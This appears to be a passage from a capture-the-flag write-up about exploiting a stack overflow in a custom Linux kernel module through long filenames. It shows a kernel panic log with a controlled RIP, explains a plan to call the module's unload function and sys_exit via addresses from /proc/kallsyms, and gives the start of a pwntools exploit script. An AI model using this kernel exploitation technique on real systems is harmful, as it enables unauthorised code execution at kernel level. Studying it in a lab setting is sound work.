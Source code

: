 Okay, now, let's see what happens in guest if I try to `ls` our shared folder.

```
/mnt/share $ ls
general protection fault: 0000 [#1] NOPTI
Modules linked in: ecsc(O)
CPU: 0 PID: 59 Comm: ls Tainted: G           O    4.14.167 #11
task: ffff9d68c1a12200 task.stack: ffff9f730009c000
RIP: 0010:0x6161616161616161
RSP: 0018:ffff9f730009ff38 EFLAGS: 00000282
RAX: 0000000000000150 RBX: 6161616161616161 RCX: 0000000000000000
RDX: 00007ffcbaa0e30e RSI: ffff9f730009ff93 RDI: 00007ffcbaa0e23b
RBP: 6161616161616161 R08: ffff9f730009fed0 R09: ffffffffc0077024
R10: ffff9f730009fec0 R11: 0000000000000000 R12: 6161616161616161
R13: 6161616161616161 R14: 0000000000000000 R15: 0000000000000000
FS:  0000000000000000(0000) GS:ffffffffb5236000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: 0000000002163138 CR3: 0000000001a88000 CR4: 00000000000006b0
Call Trace:
Code:  Bad RIP value.
RIP: 0x6161616161616161 RSP: ffff9f730009ff38
---[ end trace a6caabeee7bbb906 ]---
Kernel panic - not syncing: Fatal exception
Kernel Offset: 0x33800000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffff)
Rebooting in 1 seconds..
```

A crash, plus RIP is set to eight 0x61 which are our 'a', well, looks like we got it !

---

**Exploitation**

For now on, what do we want is to get rid of this custom module. It prevents us from knowing the name of the file we believe is the flag.
We know that our entry is filenames. So, if we put a `\x00`, it will be our last characters.
This means that we can't return to anything that isn't in the kernel.
The reason for that is simple, as you may know, memory is segmented. The kernel segment is the highest of them all, creating addresses that will
look like `0xffffffffc0077024`. .text Segment however, is ways lower. It means that addresses will look like `0x0000000000449d72`. Since don't rewrite, but overwrite,
if we say we want to overwrite our first kernel address with the user address, keeping in mind that our string stops at the first `\x00` since filenames can't contain any,
we would end up with something like `0xffffffffc0449d72`, which, obviously, is not at all the address we wanted.

We said that, to unload modules, we had to provide a function to the kernel. This function here is `ecsc_end`. Since we want to get rid of this module, technically,
all we have to do is to call this function, and manage to quit our program without crashing.

Our plan is simple. We get the address of `ecsc_end` for `/proc/kallsyms` (a file which contains kernel addresses), we get the address of `sys_exit` the same way,
and we do a buffer overflow in order to call both of them sequentially.

Our final exploit looks like that :
```python
#!/bin/python

import os
from pwn import *

os.system("rm ecsc*")

payload = b"ecsc_flag_"
payload += b"a" * 102 + p64(0xffffffffc033f36e) + p64(0xffffffff9603a390) # with our two addresses being ecsc_end and sys_exit
payload = payload.replace(b"\0", b"")

```